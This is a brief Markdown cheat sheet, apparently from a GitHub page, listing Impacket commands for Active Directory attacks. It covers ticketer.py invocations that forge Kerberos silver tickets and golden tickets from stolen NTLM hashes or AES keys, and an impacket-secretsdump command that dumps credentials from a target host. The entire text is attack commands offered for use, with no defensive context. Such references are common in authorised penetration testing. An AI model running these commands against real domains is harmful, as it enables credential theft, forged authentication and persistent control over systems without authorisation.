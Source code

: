 # Impacket

## Generate Silver Tickets with Impacket:

- `python3 ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>`
- `python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>`

## Generate Golden Tickets:

- `python3 ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>`
- `python3 ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>`

## Credential Access with Secretsdump

- `impacket-secretsdump username@target-ip -dc-ip target-ip`